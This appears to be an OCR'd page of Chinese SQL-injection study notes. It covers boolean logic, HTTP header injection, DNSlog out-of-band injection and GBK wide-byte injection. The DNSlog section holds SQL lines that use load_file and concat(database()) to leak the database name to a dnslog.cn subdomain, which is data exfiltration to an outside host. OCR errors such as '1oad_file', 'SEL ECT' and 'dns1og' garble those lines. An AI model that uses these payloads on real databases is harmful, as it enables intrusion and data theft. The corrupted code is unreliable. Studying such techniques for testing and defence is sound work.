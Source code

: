 真 and 假 = 假

假 and 真 = 假

假 and 假 = 假



真 or 真 = 真

真 or 假 = 真

假 or 真 = 真

假 or 假 = 假

# 如何http头部注入？

如果猜测到后端有SQL查询，而且会带入http请求头中的字段内容，那么该功能点可能存在SQL注
入。
头部注入通常用在后端记录日志入库的场景。

# 如何update、insert注入使用报错注入？

# dnslog带外注入的原理是什么？

原理：在后端的数据库用户拥有读写文件权限的情况下，将想要查询的字符串拼接到dnslog的域名中，然后发起对应网站的资源请求，就能把想要查询的结果外带到dnslog平台上方便查看。

# 如何进行dnslog？

用concat函数构造dnslog的域名没用select load_faile()发起网络请求，到dnslog平台上收割。

```
SELECT 1oad_file("D:/TEST. TXT");
SEL ECT 1oad_file("'\\\\test. ahfr2z. dns1og.cn\aa");

SELECT
SELECT 1oad_file("'\\\\test. ahfr2z. dns1og.cn\aa");
1oad_file (concat("\\\"，databaseahfr2z.dnslog.cn\\aa"));

SELECT 1oad_file (concat("\\\"，database(),".ahfr2z.dnslog. cn\\aa"));
```



# 宽字节注入的原理？

条件：后端使用GBK编码的时候，背后存在着将ASCII码转换为GBK编码的过程，可以使用宽字节注入。

原理：

编码转换存在着单字符被合并的情形

> 反斜杠对应16进制编码是5c，是单字节的.
>
> 在5c前再加上一个但字节字符dd（范围可以是81-FE之间），就成了dd5c
>
> 而当后端使用GBK编码的时候，会将合理的两个单字节ANSCII字符解析成一个双字节的gbk编码字符。
>
> 导致5c对应的反斜杠被和谐掉
